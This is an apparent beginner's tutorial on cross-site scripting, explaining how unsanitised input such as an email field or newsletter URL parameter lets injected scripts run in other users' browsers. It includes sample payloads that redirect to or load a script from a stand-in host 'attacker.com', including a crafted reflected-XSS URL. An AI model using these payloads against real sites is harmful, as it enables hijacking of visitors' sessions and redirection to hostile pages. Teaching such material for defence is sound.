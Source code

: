   An XSS vulnerability occurs when attackers can execute custom scripts on a victim’s browser. 

`If an application fails to distinguish between user input and the legitimate code that makes up a web page,attackers can inject their own code into pages viewed by other users.` 


## Mechanisms

As we have said earlier this attack happens when user input is not sanitised and validate the user input.

imagine there is an email input  box in the target  web app where user inputs are not validated or sanitised.

Here we have a scope of XSS attack. 

For example let's test an inline javascript,

```js
<script>location="http://attacker.com";</script>
```

Here attacker can redirect the page to attacker's website.  This is not a great exploit, attacker can do more here.

So in short, XSS happens when attackers can inject scripts in this manner onto a page that another user is viewing.

Even attackers can upload malicious files from another source using the `src` attribute of `<script>` tag 

Example,

```js
<script src= http://attacker.com/xss.js></script>
```

This is not going to work on another user using email input for now.

For that let's consider another example,

Let's say,

The site also allows users to subscribe to the newsletter by visiting the URL : 
``
```js
https://subscribe.example.com?email=SUBSCRIBER_EMAIL

```


After the user visit the url, it will automatically subscribed,

In this case, attackers can inject the script by tricking users into visiting a malicious URL:

```js
https://subscribe.example.com?email=<script>location="http://attacker.com";</script>
```

Since, the script got incorporated into the site, the victims browser will think that it's part of the site. And now the script can access the resources that the browser stores for the site,
